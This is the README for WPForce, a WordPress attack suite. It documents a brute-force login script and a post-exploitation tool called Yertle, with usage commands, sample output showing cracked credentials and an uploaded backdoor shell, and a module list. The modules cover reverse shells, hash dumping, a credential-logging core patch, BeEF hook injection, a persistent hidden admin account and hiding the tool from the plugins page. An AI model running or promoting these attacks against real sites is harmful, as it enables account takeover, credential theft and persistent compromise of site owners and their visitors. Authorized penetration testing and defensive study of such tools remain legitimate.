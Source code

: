 ![Supported Python versions](https://img.shields.io/badge/python-2.7-blue.svg)
# WPForce - Wordpress Attack Suite 

## ABOUT:
WPForce is a suite of Wordpress Attack tools.  Currently this contains 2 scripts - WPForce, which brute forces logins via the API, and Yertle, which uploads shells once admin credentials have been found.  Yertle also contains a number of post exploitation modules.

For more information, visit the blog post here: 
https://www.n00py.io/2017/03/squeezing-the-juice-out-of-a-compromised-wordpress-server/

Blogs in other languages: 

Chinese -    www.mottoin.com/100381.html 

Portuguese - http://www.100security.com.br/wpforce/ 

Spanish -    http://www.1024megas.com/2017/05/wpforce-fuerzabruta-postexplotacion.html 
             https://esgeeks.com/como-hackear-sitio-wordpress-con-wpforce/

Russian -    https://hackware.ru/?p=2547

French -     https://securityhack3r.info/wpforce-brute-force-attack-tool-wordpress/ 

Turkish -    http://turkhackteam.org/web-server-guvenligi/1655005-wordpress-site-sizma-testi-part-1-a.html


## FEATURES:
* Brute Force via API, not login form bypassing some forms of protection
* Can automatically upload an interactive shell
* Can be used to spawn a full featured reverse shell
* Dumps WordPress password hashes
* Can backdoor authentication function for plaintext password collection
* Inject BeEF hook into all pages
* Pivot to meterpreter if needed


## INSTALL:
```
Yertle requires the requests libary to run.
http://docs.python-requests.org/en/master/user/install/
```

## USAGE:
```
python wpforce.py -i usr.txt -w pass.txt -u "http://www.[website].com"

   ,-~~-.___.       __        __ ____   _____
  / |  x     \      \ \      / /|  _ \ |  ___|___   _ __  ___  ___
 (  )        0       \ \ /\ / / | |_) || |_  / _ \ | '__|/ __|/ _ \.
  \_/-, ,----'  ____  \ V  V /  |  __/ |  _|| (_) || |  | (__|  __/
     ====      ||   \_ \_/\_/   |_|    |_|   \___/ |_|   \___|\___|
    /  \-'~;   ||     |
   /  __/~| ...||__/|-"   Brute Force Attack Tool for Wordpress
 =(  _____||________|                 ~n00py~

Username List: usr.txt (3)
Password List: pass.txt (21)
URL: http://www[website].com
--------------------------
[xxxxxxxxxxxxx@gmail.com : xxxxxxxxxxxxx] are valid credentials!  - THIS ACCOUNT IS ADMIN
--------------------------
--------------------------
[xxxxxxxxxxxxx@icloud.com : xxxxxxxxxxxx] are valid credentials!
--------------------------
 100% Percent Complete
All correct pairs:
{'xxxxxxxxxxxxx@icloud.com': 'xxxxxxxxxxxxx', 'xxxxxxxxxxxxx@gmail.com': 'xxxxxxxxxxxxx'}

 -h, --help            show this help message and exit
  -i INPUT, --input INPUT
                        Input file name
  -w WORDLIST, --wordlist WORDLIST
                        Wordlist file name
  -u URL, --url URL     URL of target
  -v, --verbose         Verbose output. Show the attemps as they happen.
  -t THREADS, --threads THREADS
                        Determines the number of threads to be used, default
                        is 10
  -a AGENT, --agent AGENT
                        Determines the user-agent
  -d, --debug           This option is used for determining issues with the
                        script.


python yertle.py -u "[username]" -p "[password]" -t "http://www.[website].com" -i
     _..---.--.    __   __        _   _
   .'\ __|/O.__)   \ \ / /__ _ __| |_| | ___
  /__.' _/ .-'_\    \ V / _ \ '__| __| |/ _ \.
 (____.'.-_\____)    | |  __/ |  | |_| |  __/
  (_/ _)__(_ \_)\_   |_|\___|_|   \__|_|\___|
   (_..)--(.._)'--'         ~n00py~
      Post-exploitation Module for Wordpress

Backdoor uploaded!
Upload Directory: ebwhbas
os-shell>



  -h, --help            show this help message and exit
  -i, --interactive     Interactive command shell
  -r, --reverse         Reverse Shell
  -t TARGET, --target TARGET
                        URL of target
  -u USERNAME, --username USERNAME
                        Admin username
  -p PASSWORD, --password PASSWORD
                        Admin password
  -li IP, --ip IP       Listener IP
  -lp PORT, --port PORT
                        Listener Port
  -v, --verbose         Verbose output.
  -e EXISTING, --existing EXISTING
                        Skips uploading a shell, and connects to existing
                        shell


```

Yertle currently contains these modules:

```
Core Commands
=============
 
Command                   Description
-------                   -----------
?                         Help menu
beef                      Injects a BeEF hook into website
dbcreds                   Prints the database credentials
exit                      Terminate the session
hashdump                  Dumps all WordPress password hashes
help                      Help menu
keylogger                 Patches WordPress core to log plaintext credentials
keylog                    Displays keylog file
meterpreter               Executes a PHP meterpreter stager to connect to metasploit
persist                   Creates an admin account that will re-add itself
quit                      Terminate the session
shell                     Sends a TCP reverse shell to a netcat listener
stealth                   Hides Yertle from the plugins page
```
